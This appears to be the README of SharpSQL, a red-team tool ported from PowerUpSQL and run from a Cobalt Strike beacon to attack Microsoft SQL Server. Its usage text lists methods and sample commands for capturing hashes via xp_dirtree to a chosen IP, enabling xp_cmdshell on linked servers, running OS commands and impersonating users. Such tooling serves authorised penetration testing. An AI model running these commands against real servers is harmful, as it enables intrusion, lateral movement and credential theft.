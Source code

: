# SharpSQL

Simple port of PowerUpSQL
- Methods and options are case-insensitive e.g. `Get-SQLInstanceDomain`/`get-sqlinstancedomain` or `-Instance`/`-instance`
- `-Instance` required for all methods except `Get-SQLInstanceDomain`

Thanks to [tevora-threat](https://github.com/tevora-threat) for getting the ball rolling.

## Usage
```
beacon> execute-assembly C:\Tools\SharpSQL.exe -help

SharpSQL by @mlcsec

Usage:

    SharpSQL.exe [Method] [-Instance <sql.server>] [-LinkedInstance <linked.sql.server>] [-Command <whoami>] [-Query <query>]

Options:

    -Instance                  - The instance to taget
    -db                        - The db to connect to (default: master)
    -LinkedInstance            - The linked instance to target
    -ip                        - The IP to xp_dirtree (share: /pwn)
    -User                      - The user to impersonate
    -Command                   - The command to execute (default: whoami - Invoke-OSCmd and Invoke-LinkedOSCmd)
    -Query                     - The raw SQL query to execute
    -help                      - Show  help

Methods:
    Get-SQLInstanceDomain      - Get SQL instances within current domain via user and computer SPNs (no parameters required)
    Get-Databases              - Get available databases (-Instance required)
    Get-DBUser                 - Get database user via USER_NAME (-Instance required)
    Get-GroupMembership        - Get group member for current user ('guest' or 'sysadmin') (-Instance required)
    Get-Hash                   - Get hash via xp_dirtree (-Instance and -ip required)
    Get-ImpersonableUsers      - Get impersonable users (-Instance required)
    Get-LinkedServers          - Get linked SQL servers (-Instance required)
    Get-LinkedPrivs            - Get current user privs for linked server (-Instance and -LinkedInstance required)
    Get-Sysadmins              - Get sysadmin users (-Instance required)
    Get-SystemUser             - Get system user via SYSTEM_USER (-Instance required)
    Get-SQLQuery               - Execute raw SQL query (-Instance and -Query required)
    Get-Triggers               - Get SQL server triggers (-Instance required)
    Get-Users                  - Get users from syslogins (-Instance required)
    Get-UserPrivs              - Get current user server privileges (-Instance required)
    Check-Cmdshell             - Check whether xp_cmdshell is enabled on instance (-Instance required)
    Check-LinkedCmdshell       - Check whether xp_cmdshell is enabled on linked server (-Instance and -LinkedInstance required)
    Enable-Cmdshell            - Enable xp_cmdshell on instance (-Instance required)
    Enable-LinkedCmdshell      - Enable xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Invoke-OSCmd               - Execute system command via_xp_cmdshell on instance (-Instance required)
    Invoke-LinkedOSCmd         - Executes system command via xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Ivnoke-ExternalScript      - Invoke external python script command execution (-Instance required)
    Invoke-OLEObject           - Invoke OLE wscript command execution (-Instance required)
    Invoke-UserImpersonation   - Impersonate user (-Instance and -User required)

Examples:

    SharpSQL.exe Get-SQLInstanceDomain
    SharpSQL.exe Get-UserPrivs -Instance sql.server
    SharpSQL.exe Get-Sysadmins -Instance sql.server
    SharpSQL.exe Get-LinkedServers -Instance sql.server
    SharpSQL.exe Get-Hash -Instance sql.server -ip 10.10.10.10
    SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami /all"
    SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\users\"
```


## Demo
### Get-UserPrivs
![image](https://user-images.githubusercontent.com/47215311/153054239-3937a19a-5514-42fb-980c-4e1676f085ca.png)

### Invoke-OSCmd
![image](https://user-images.githubusercontent.com/47215311/153054117-3b149563-2ed4-4123-af70-8f17599e4220.png)



## Todo

- Test:
    - `Invoke-ExternalScript` - not tested in lab
    - `Invoke-OLEObject` - not tested in lab
    - `Invoke-UserImpersontation` - not tested in lab

- Fix:
    - `Enable-LinkedCmdshell` - rpc or metadata error currently, `Check-LinkedCmdshell` and `Invoke-LinkedOSCmd` work fine

- Add:
    - `Invoke-CustomAsm`
    - `Add-User`
    - `Add-LinkedUser`
    - double link crawl functionality, raw queries should work as is
